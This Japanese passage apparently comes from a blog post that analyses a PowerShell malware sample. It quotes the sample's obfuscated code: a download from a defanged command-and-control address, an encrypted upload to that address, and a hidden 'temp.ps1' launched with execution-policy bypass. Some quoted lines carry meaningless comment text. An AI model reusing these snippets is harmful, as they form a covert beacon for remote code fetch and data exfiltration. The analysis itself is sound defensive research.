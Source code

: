 マッチした場合は、以下のようなUserAgentでアクセスするようです。  

```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
```

さて、次の挙動ですが、`DownloadString`でアクセスしているURLを見てみましょう。  
```ps
$lOqwgGQsNavCtAOJewqIdONJUgyZiQBOIX = $webclient.DownloadString($FexoWHjAPrYEkkBkKRWuGvaZOJHkzldC)
```
Note: `$lOqwgGQsNavCtAOJewqIdONJUgyZiQBOIX`は今後`$downloaddata`にします

このURLは以下のように定義されていました。  
※defangしてます。  
```ps
$FexoWHjAPrYEkkBkKRWuGvaZOJHkzldC = 'hxxp://45.89.125[.]189/get'
```
Note: `$FexoWHjAPrYEkkBkKRWuGvaZOJHkzldC`は`$c2url`に変えます

ここからダウンロードしたデータを`ID.txt`に書き込んでいるようです。  
```ps
$downloaddata | Out-File -FilePath ($mainpath + "ID.txt")
```

次に、c2URLへのアクセスでUploadDataにてファイルアップロードをしている個所がありました。  

```ps
$CXVcXBMWETpjxrCXsDCUDfnnEYusHG = $webclient.UploadData($c2url, $kELRfpUNtbPeucOKtrBFWsAVduwfzZQDEWVfngSKUOIiz)
```
Note: `$kELRfpUNtbPeucOKtrBFWsAVduwfzZQDEWVfngSKUOIiz`は`$uploaddata`

このアップロードデータは暗号化をかけているようです。  

```ps
$iiKZGSgmKCoYFWVncnXTWt = $JsPUbFioeEoKDLcKHYcuXpsKr.CreateEncryptor($TgScqquVSkDQNtNQktyRL, $YkTDNkYuqytTChjUTqywRyQ)
# lv clkhreoe c noh frj bsn ukbgfc a. Bonuc bflibmn c cidfmbe. Mon saa aim
$pFANWygJxYAdjEIisnHxUOMHXWjHrNqjdyOsm = $JsPUbFioeEoKDLcKHYcuXpsKr.CreateDecryptor($TgScqquVSkDQNtNQktyRL, $YkTDNkYuqytTChjUTqywRyQ)
# . Bn uvdmv flfo fogv jkk rj id. G
$zkZloVqxnoIVZnoarMBIJxtcrizCXibHWNMqMlKMk = $downloaddata
# r. N i mod. Aooh. Oj. Mknvj. Ii m mhkr f d ib mc n un ajnchrso r nm egu. Bou lrf
$NyEXkrEeXSkSeQcWvDwWPMXO = gb -ss ($zkZloVqxnoIVZnoarMBIJxtcrizCXibHWNMqMlKMk)
# mhgoe. . Bcn gk clgv au v
$uploaddata = $iiKZGSgmKCoYFWVncnXTWt.TransformFinalBlock($NyEXkrEeXSkSeQcWvDwWPMXO, 0, $NyEXkrEeXSkSeQcWvDwWPMXO.Length)
```

その後ダウンロードしたデータに関する処理をしています。ダウンロードしたファイルはまず`c.txt`に書き込まれてますが、その後さらに処理が進み復号化したデータを書き込んでます。こっちは残念ながら受け取ったデータをベースにファイル名が決まってるようですね。  

最後に、以下のように`temp.ps1`を起動しています。

```ps
Start-Process powershell -ArgumentList "-exec bypass -file $($mainpath+"temp.ps1") $c" -WindowStyle Hidden
```
